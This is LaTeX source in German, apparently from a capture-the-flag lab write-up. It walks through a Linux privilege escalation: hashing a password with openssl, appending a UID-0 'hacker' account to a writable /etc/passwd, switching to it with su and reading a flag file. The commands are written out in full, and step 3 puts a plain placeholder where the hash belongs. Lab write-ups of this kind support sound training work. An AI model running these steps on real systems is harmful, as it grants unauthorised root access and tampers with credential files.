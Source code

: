 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{openssl passwd -1 -salt THM password1}  in die Kommandozeile eingeben, um den hash-Wert für das Passwort des neuen Nutzers zu erzeugen.
        \item[2.] \textit{nano /etc/passwd}  in die Kommandozeile eingeben, um die /etc/passwd Datei im Texteditor nano zu öffnen.
        \item[3.] \textit{hacker:PasswortAus1:0:0:root:/root:/bin/bash}  als neue Zeile einfügen, um einen neuen root Nutzer names Hacker zu erzeugen.
                Wichtig ist die Verwendung von :/root:/bin/bash um einen root Nutzer zu erzeugen.
        \item[4.] Die Datei schließe und vorgenommene Änderungen speichern.
        \item[5.] \textit{su hacker} in die Kommandozeile eingeben, um den Nutzer zu wechseln.
        \item[6.] \textit{cat SuperSecretFile.txt} in die Kommandozeile eingeben, um den Inhalt der Datei zu sehen.
        \item[7.] \textbf{Alternativ} kann nach Schritt 1. eine neue Zeile mittels echo Befehl in die /etc/passwd Datei eingefügt werden: \textit{echo 'hacker:'\$1\$THM\$tYgpU9xzsOZ98alD7sjt70':0:0:root:/root:/bin/bash' >> /etc/passwd}
    \end{enumerate}

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserReadFlag}
        \caption{Neuen root Nutzer mittels Nano hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen.}
        \label{fig:privilegeEscalation1Screenshot1}
    \end{figure}
    \noindent

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserVersion2}
        \caption{Neuen root Nutzer mittels echo hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen. Da das Terminal teils immer noch instabil ist, wird die Zeile falsch dargestellt. Eingegeben wurde der in Schritt 7. angegeben echo Befehl.}
        \label{fig:privilegeEscalation1Screenshot2}
    \end{figure}
    \noindent
\end{document}
